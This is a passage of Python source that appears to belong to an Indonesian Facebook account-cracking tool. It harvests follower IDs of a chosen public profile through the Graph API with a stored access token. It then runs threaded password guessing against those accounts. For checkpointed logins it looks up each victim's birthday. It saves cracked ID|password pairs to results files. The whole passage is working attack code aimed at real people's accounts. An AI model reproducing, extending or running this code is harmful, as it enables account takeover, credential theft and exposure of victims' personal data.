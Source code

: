 				if 'checkpoint' in xo:
					try:
						token = open('login.txt').read()
						url = ("https://graph.facebook.com/"+uid+"?access_token="+token)
						data = s.get(url).json()
						ttl = data['birthday'].replace("/","-")
						nama = data['name']
						print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '|' + ttl)
						cp.append(uid+'|'+pw+'|'+ttl)
						save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
						save.write('  * --> '+str(uid)+'|'+str(pw)+'|'+ttl+'\n')
						save.close()
						break
					except(KeyError, IOError):
						ttl = " "
					except:pass
					print('\r  \033[0;93m* --> ' +uid+ '|' + pw + '       ')
					cp.append(uid+'|'+pw)
					save = open('results/CP-%s-%s-%s.txt' % (ha, op, ta),'a') 
					save.write('  * --> '+str(uid)+'|'+str(pw)+'\n')
					save.close()
					break
					continue
					
			loop += 1
		except:
			pass
	p = ThreadPool(30)
	p.map(main, id)
	exit("\n \033[0;97m[\033[0;96m#\033[0;97m] Selesai")

def followers():
	global token
	try:
		token = open('login.txt', 'r').read()
	except IOError:
		print(' \033[0;97m[\033[0;91m!\033[0;97m] Token Invalid')
		tokenz()
	print("\n \033[0;97m[\033[0;93m*\033[0;97m] Ketik 'me' jika ingin crack dari followers sendiri")
	idt = raw_input(" \033[0;97m[\033[0;92m+\033[0;97m] ID Publik : ")
	try:
		pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token)
		sp = json.loads(pok.text)
		print(" \033[0;97m[\033[0;92m+\033[0;97m] Name : "+sp["name"])
	except KeyError:
		exit(' \033[0;97m[\033[0;91m!\033[0;97m] ID Public Tidak Ada!')
	r = requests.get("https://graph.facebook.com/"+idt+"/subscribers?limit=5000&access_token="+token)
	z = json.loads(r.text)
	for i in z["data"]:
		uid = i['id']
		name = i['name']
		id.append(uid+'<=>'+name)
	print(" \033[0;97m[\033[0;93m*\033[0;97m] Total ID  : \033[0;91m"+str(len(id)))
	ask = raw_input("\n \033[0;97m[\033[0;93m?\033[0;97m] Anda ingin menggunakan password manual? Y/t : ")
	if ask == "Y" or ask == "y":
		manual()
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;92mOK\033[0;97m Saved In : results/OK-%s-%s-%s.txt"% (ha, op, ta))
	print(" \033[0;97m[\033[0;96m+\033[0;97m] Account \033[0;93mCP\033[0;97m Saved In : results/CP-%s-%s-%s.txt\n"% (ha, op, ta))
	